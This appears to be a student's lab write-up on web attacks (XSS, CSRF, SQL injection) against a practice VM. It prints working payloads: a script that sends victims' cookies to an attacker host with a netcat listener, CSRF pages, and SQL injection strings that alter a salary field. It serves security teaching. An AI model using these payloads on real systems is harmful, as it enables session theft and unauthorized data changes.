# Cross-Site Scripting (XSS)

Cross-site scripting (XSS) is a type of security vulnerability that can be found in some web applications. XSS attacks enable attackers to inject client-side scripts into web pages viewed by other users. 

In this lab, students need to exploit this vulnerability to launch an XSS attack on the modified server in our pre-built Ubuntu VM image.

### Task 1: Display an Alert Window when visiting a user's profile

The objective of this task is to embed a JavaScript program in a user's profile. This attack will execute a JavaScript and display an alert window when other users view your profile.

Edit user profiles, such as "description", enter the code below and save, then any user who views your profile will see the alert window.

```html
<script>alert(/XSS/);</script>
```

### Task 2: Stealing Cookies from the Victim’s Machine

In this task, the attacker wants the JavaScript code to send the cookies to himself/herself.

We can do this by having the malicious JavaScript insert an HTML tag (like `` or `<script>`) with src attribute set to the attacker’s machine.

```html
<script>document.write('<script src=http://10.9.0.1:5555?c='+ escape(document.cookie) + ' >');</script>
```

A commonly used program by attackers is netcat (or nc), which, if running with the "-l" option, becomes a TCP server that listens for a connection on the specified port. 

Type the command below to listen on port 5555:

```bash
nc -lknv 5555
```


# CSRF vulnerabilities

A Cross-Site Request Forgery(CSRF) attack involves a victim user, a trusted site, and a malicious site. The victim user holds an active session with a trusted site while visiting a malicious site. The malicious site injects an HTTP request for the trusted site into the victim user session, causing damages.

### Task 1: CSRF Attack using GET Request

To add a friend to the victim, we need to identify what the legitimate Add-Friend HTTP request (a GET request) looks like. You can use Firefox's "Web Developer Tool" to see a live HTTP requests.



Edit `addfriend.html` inside the attacker's docker container with captured GET request:



Alice visits `http://www.attacker32.com/addfriend.html`, and Samy appears in Alice's friend list.



### Task 2: CSRF Attack using POST Request

After adding himself to Alice’s friend list, Samy wants to do something more. He wants Alice to say “Samy is my Hero” in her profile. 
One way to do the attack is to post a message to Alice’s Elgg account, hoping that Alice will click the URL inside the message. This URL will lead Alice to your (i.e., Samy’s) malicious web site `www.attacker32.com`, where you can launch the CSRF attack.

The server-side script edit.php accepts both GET and POST requests, so you can use the same trick as that in Task 1 to achieve the attack. 



Edit `addfriend.html` inside the attacker's docker container with captured GET request:



After alice visits `http://www.attacker32.com/editprofile.htmlhttp://www.attacker32.com/editprofile.html`, Alice's profile will be modified.



# SQLi vulnerabilities

SQL injection is a code injection technique that exploits the vulnerabilities in the interface between web applications and database servers. The vulnerability is present when user’s inputs are not correctly checked within the web applications before being sent to the back-end database servers.

### Task 1: SQL Injection Attack on SELECT Statement

The PHP code `unsafe_home.php` shows how users are authenticated.



An idea is to use the SQL injection attack to turn one SQL statement into two, with the second one being the update or delete statement. In SQL, semicolon (;) is used to separate two SQL statements. 

Retrieve database version(Harmless verification, no impact on database):

```
admin' AND extractvalue(rand(),concat(0x3a,version())) #
```

### Task 2: SQL Injection Attack on UPDATE Statement

As shown in the Edit Profile page, employees can only update their nicknames, emails, addresses, phone numbers, and passwords.

The PHP file is located in the /var/www/SQLInjection directory, view `unsafe_edit_backend.php`:



Into the NickName field. An attacker could change the SQL statement being executed to:

```
"UPDATE credential SET nickname='', salary=1 WHERE Name='Boby';#'"
```

Therefore, we can input the following attack statement to change boby's salary

```
', salary=1 WHERE Name='Boby';#
```






